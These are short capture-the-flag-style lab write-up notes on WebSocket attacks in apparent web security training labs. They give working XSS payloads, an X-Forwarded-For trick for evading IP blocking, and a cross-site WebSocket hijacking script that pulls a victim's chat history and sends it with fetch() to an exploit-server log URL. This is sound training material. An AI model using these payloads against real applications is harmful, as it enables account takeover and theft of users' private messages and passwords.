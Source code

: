 1. This lab uses websockets to implement a live chat feature. The chat uses HTML encoding on the messages that are sent, but does not do this on messages that are received. As a result, Burp Repeater can be used to bypass this encoding. Sending the following websocket payload causes the XSS: `{"message":"<img src=x onerror=alert()>"}`
2. This lab is the same as the previous, but it implements a XSS filter and IP blocking if that filter is tripped. The IP blocking can be bypassed using the `X-Forwarded-For` header, and the XSS filter has some holes in it. As a result, the following websocket message can be sent manually to trigger the XSS: `{"message":"<img src=x oNeRrOr=alert`1`>"}`
3. This lab's chat feature is vulnerable to cross-site websocket hijacking. Additionally, sending the `READY` command causes the server to send the entire chat history for a user. As such, the following payload on the exploit server will recover the victim's chat history, which contains his password:
```
<script>
var ws = new WebSocket("wss://acec1fda1e00aa84c0c7256800e200cc.web-security-academy.net/chat");
ws.onopen = function() {
ws.send('READY');
}
ws.onmessage = function(event) {
fetch('https://exploit-ac9e1f871e5faa78c0d325c801b300e8.web-security-academy.net/log?data=' + event.data);
}
</script>
```
